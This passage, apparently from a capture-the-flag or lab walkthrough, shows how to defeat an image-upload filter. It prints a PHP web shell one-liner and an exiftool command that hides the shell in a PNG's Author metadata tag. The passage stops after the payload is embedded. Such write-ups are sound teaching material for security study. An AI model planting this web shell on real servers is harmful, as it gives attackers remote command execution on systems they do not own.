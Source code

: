 {% highlight php linenos %}
<?php system($_REQUEST['cmd']); ?>
{% endhighlight %}

If we save this web shell in a file named "ws.php" and try to upload it, the web application provides us with an error stating that the file type is not allowed.

![onlyImage](/assets/{{ imgDir }}/onlyImage.png)

It appears that the web application is checking that the extension of the uploaded file is a valid image extension. To check for additional limitations, we rename the file to "ws.png" and try to reupload it. This time, we get another error message.

![onlyRealPNG](/assets/{{ imgDir }}/onlyRealPNG.png)

Since the error message is different, we have probably passed the extension filter. However, there seems to be some other filtering mechanism. Sometimes, developers check that the content of an uploaded file corresponds to the file extension. Since we are trying to upload a PHP file with a `.png` extension, the web application is refusing to upload the file as the file content is not matching the extension. In conclusion, we now know that we can only upload valid image files with valid image file extensions. 

However, we can still upload our webshell by hiding it in the metadata of an image. We can display the metadata of an image using `exiftool` as shown below. 
{% highlight none linenos %}
kali@kali:/tmp/x$ @@exiftool hackerCat.png@@
ExifTool Version Number         : 12.10
File Name                       : hackerCat.png
Directory                       : .
File Size                       : 338 kB
File Modification Date/Time     : 2022:03:04 10:32:33-05:00
File Access Date/Time           : 2022:03:04 10:19:28-05:00
File Inode Change Date/Time     : 2022:03:04 10:32:33-05:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 601
Image Height                    : 398
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8 8
Image Size                      : 601x398
Megapixels                      : 0.239
{% endhighlight %}

We start by executing `cp hackerCat.png evilHackerCat.png` to create a copy of the image. Next, we use `exiftool` to create a metadata tag named "Author" which holds our web shell. 
{% highlight none linenos %}
kali@kali:/tmp/x$ @@cp hackerCat.png evilHackerCat.png@@
kali@kali:/tmp/x$ @@exiftool -author='<?php system($_REQUEST['cmd']); ?>' evilHackerCat.png@@
    @@@1 image files updated@@@
{% endhighlight %}
